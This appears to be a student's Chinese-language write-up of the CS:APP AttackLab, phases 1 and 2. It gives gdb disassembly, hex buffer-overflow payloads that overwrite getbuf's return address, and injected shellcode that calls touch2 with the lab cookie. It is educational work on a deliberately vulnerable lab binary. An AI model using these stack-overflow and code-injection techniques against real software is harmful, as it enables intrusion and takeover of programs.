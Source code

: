 ## AttackLab

### Preparation

1. 栈帧结构

   ![https://i.imgur.com/uKHxdys.png](https://i.imgur.com/uKHxdys.png)

### Phase 1

根据提示，Phase 1 中告诉我们 ctarget 程序运行时的有效信息如下：

1. ctarget 会先调用 `test` 函数。

```c
void test()
{
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

2. `getbuf` 类似与 C 标准库中的  `gets`函数

3. 这个程序里同时存在一个 `touch1 `函数，我们要做的是通过输入数据，执行到 `touch1`函数

```c
void touch1()
{
    vlevel = 1; /* Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

首先，我们肯定要看一下 `getbuf` 这个函数做了些什么。

```assembly
(gdb) disas getbuf
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp # 开辟0x28字节（40字节）栈空间
   0x00000000004017ac <+4>:     mov    %rsp,%rdi # 给到第一个参数
   0x00000000004017af <+7>:     call   0x401a40 <Gets> # 读入40个字节到栈内存。但是正因为它说明了和 gets 函数相同，说明它不会判断缓冲区的大小，有可能导致读入超出 40 个字节从而污染调用栈
   0x00000000004017b4 <+12>:    mov    $0x1,%eax # 设置返回值为 1
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    ret
End of assembler dump.
```

当读入超过给定缓冲区大小的数据时，`gets` 函数就会污染调用栈，从而产生安全问题，这也是 `gets` 函数被不建议使用的原因。根据栈帧结构，可以分析出

```assembly
%rsp -- %rsp - 0x28 : 缓冲区数组
%rsp + 0x8 -- %rsp : 返回地址
```

原本 `%rsp + 0x8 -- %rsp` 应该返回到 `printf` 语句所在的地址，只需要把这个地址覆盖为 `touch1` 函数的地址即可。

```assembly
(gdb) x touch1
0x4017c0 <touch1>:      0x08ec8348
```

如下：缓冲区数据可以任意填写。

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

通过 hex2raw 程序可以将 16 进制字符串转换为 2进制字符串（空格和换行都会被 trim 掉）

```bash
❯ ./hex2raw < ./ans/phase_1.txt > ./ans/phase_1
❯ ./ctarget -qi ./ans/phase_1
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00 
```

在我的本机测试，直接一段命令使用管道运算符会出现段错误，目前原因未知，推测可能是 `-i`参数的问题，见 Phase 2。

### Phase 2

与Phase 1 共有一个程序，Phase 2 要求我们调用到 touch2 函数，并且正确传入参数（在 cookie.txt 里）

```c
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

思路比较简单。因为  `test` 函数会向栈空间写入数据，只要栈内存是可执行的，我们可以把在 Phase 1里填入的无用的数据换成自己编写的代码。然后在移除后的返回地址从 `touch1` 函数的地址换成我们自己编写的代码的首地址。

我们自己编写的那段代码需要做两件事：

1. 需要将 `%rsi` 寄存器修改为我们想要的值
2. 调用 `touch2` 函数。（将 `touch2` 函数的地址压栈后调用 `ret` 指令即可实现）

首先找一下  `touch2` 函数的地址

```assembly
(gdb) p touch2
$1 = {void (unsigned int)} 0x4017ec <touch2>
```

据此得到我们应该编写的汇编代码

```assembly
mov    $0x59b997fa,%rdi
push   $0x4017ec
ret
```

通过 `gcc -c` 命令汇编成机器码后可以使用其他程序将其转换为机器码对应的 16 进制表示或通过 `objdump -d` 转换。

但是还有一个问题，就是如何确定我们要修改 `test` 函数的返回地址。因为这个程序没有开启栈随机化，每次运行时栈地址确定的，所以可以打断点运行一下找到栈顶地址就是我们写入代码的第一个地址。

```assembly
(gdb) b *0x4017ac
Breakpoint 1 at 0x4017ac: file buf.c, line 14.
(gdb) r -q -i ./ans/phase_1 # 经过尝试不写 -i 参数会出现段错误，所以借用下 phase 1 的答案，反正不会对我们要找的栈指针造成影响
Starting program: /mnt/d/Projects/Personal/csapp-lab/attacklab/attack-handout/ctarget -q -i ./ans/phase_1
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Cookie: 0x59b997fa

Breakpoint 1, getbuf () at buf.c:14
14      buf.c: No such file or directory.
(gdb) p/x $rsp
$1 = 0x5561dc78
```

得到我们注入代码的首地址是 `0x5561dc78` ，把这段地址替换掉 Phase 1 中的 `touch2` 函数地址即可

```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

当然注入的代码也可以写道中间行，然后返回地址也需要对栈顶指针相应加一个偏移量指向我们注入代码的首地址，不过真的有人会这样做吗？